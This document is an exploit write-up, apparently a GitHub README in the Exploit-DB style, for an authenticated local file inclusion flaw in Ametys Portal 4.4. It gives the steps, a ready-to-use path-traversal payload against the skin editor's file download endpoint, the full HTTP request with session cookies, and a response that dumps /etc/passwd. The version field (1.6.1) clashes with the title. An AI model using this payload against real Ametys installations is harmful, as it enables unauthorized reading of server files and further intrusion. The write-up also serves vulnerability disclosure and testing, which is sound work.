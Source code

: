 ## Exploit Title: Ametys Portal 4.4 - Local File Inclusion

- **Date:** 05.08.2025
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [Ametys Portal](https://www.ametys.org)
- **Software Link:** [Ametys Portal 4.4](https://www.ametys.org/community/en/download/ametys-portal/ametys-portal-4.html)
- **Version:** 1.6.1

![Ametys Portal 4.4](https://raw.githubusercontent.com/capture0x/Ametys-LFI/refs/heads/main/ametys.png)

### POC:

#### Exploit working with manager , webmaster and admin cred 
1. Login with webmaster cred 
2. Click Skin Editor > Resources > Img > any image file
> https://127.0.0.1/cms/plugins/skineditor/file/download?path=../../../../../../../../../../../../../../../../etc/passwd&skinName=demo
4. Catch to request with burp suite , change path with lfi payload 

### Request:

```http
GET /cms/plugins/skineditor/file/download?path=../../../../../../../../../../../../../../../../etc/passwd&skinName=demo HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=3F87581AEF2EC304640A09D7094D98EE; AmetysAuthentication=YW1ldHlzX2RlbW9fdXNlcnMjd2VibWFzdGVyI05ycnY0RlVPeXgwcENOVEk; tarteaucitron=!gajs=false!matomocloud=false!googlemaps=false!gagenda=false!sharethis=false!dailymotion=false!youtube=false!youtubeplaylist=false; JSESSIONID=DC788DBC176BFB0787DA25FC2C93CE63; _pk_id.2.afd3=4f757134bce0bed6.1754326045.; _ga_2VTM1RYFX8=GS2.1.s1754331048$o1$g1$t1754331054$j54$l0$h0; JSESSIONID-Ametys=719D9B1BA49FE4046DFB966F28FBB385
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://127.0.0.1/cms/www/index.html
Dnt: 1
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```
### Response:

```
HTTP/1.1 200 
Date: Tue, 05 Aug 2025 11:54:47 GMT
Server: Apache
Content-Security-Policy: default-src 'self' https: data: 'unsafe-inline' 'unsafe-eval'; img-src 'self' https: data: blob: 'unsafe-inline' 'unsafe-eval'; frame-src 'self' https: data: ms-word: ms-powerpoint: ms-excel: ms-visio: ms-access: ms-project: ms-publisher: ms-infopath: vnd.libreoffice.command: ; frame-ancestors 'self' http: https: ; connect-src 'self' https: data: 'unsafe-inline' 'unsafe-eval' wss:
Referrer-Policy: strict-origin-when-cross-origin
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Permissions-Policy: accelerometer=(), autoplay=*, battery=(), camera=(), cross-origin-isolated=(), display-capture=(), document-domain=(), encrypted-media=(), execution-while-not-rendered=(), execution-while-out-of-viewport=(), fullscreen=*, geolocation=(), gyroscope=(), magnetometer=(), microphone=(), midi=(), navigation-override=(), payment=(), picture-in-picture=(), publickey-credentials-get=(), screen-wake-lock=(), usb=(), web-share=(), xr-spatial-tracking=()
X-Cocoon-Version: 2.1.13
Content-Disposition: attachment; filename="passwd"
Content-Length: 2247
Cache-Control: max-age=1
Expires: Tue, 05 Aug 2025 11:54:48 GMT
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Language: fr

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sssd:x:112:119:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
tomcat:x:997:997:Apache Tomcat:/:/usr/sbin/nologin
cms:x:1001:1000::/home/cms:/bin/bash
postfix:x:113:121::/var/spool/postfix:/usr/sbin/nologin
glouton:x:996:998:Glouton daemon:/var/lib/glouton:/sbin/nologin
_rpc:x:114:65534::/run/rpcbind:/usr/sbin/nologin
fwupd-refresh:x:115:123:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dhcpcd:x:117:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
polkitd:x:995:995:User for polkitd:/:/usr/sbin/nologin

```

### Video

![Ametys Poc Video](https://github.com/capture0x/Ametys-LFI/raw/refs/heads/main/ametys.mp4)
